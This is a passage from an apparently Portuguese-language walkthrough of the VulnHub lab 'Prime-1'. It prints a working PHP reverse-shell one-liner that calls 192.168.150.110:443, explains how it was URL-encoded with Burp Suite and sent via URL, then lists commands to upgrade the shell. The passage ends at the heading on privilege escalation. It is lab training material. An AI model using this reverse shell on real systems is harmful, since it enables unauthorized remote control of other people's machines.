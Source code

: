 > php -r '$sock=fsockopen("192.168.150.110",443);exec("/bin/sh -i <&3 >&3 2>&3");'


* Depois utilizamos o Burp Suite para encodar o comando

![](/assets/img/Vulnhub/Prime-1/encode-URL.png)


* Vamos deixar a porta escutando na kali e enviar o comando de shell reverso via URL

![](/assets/img/Vulnhub/Prime-1/shell-reverso.png)


* Melhorando o shell cachorro que recebemos

```bash
script /dev/null
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```


![](/assets/img/Vulnhub/Prime-1/melhorando-shell.png)


# Escalando Privilegio
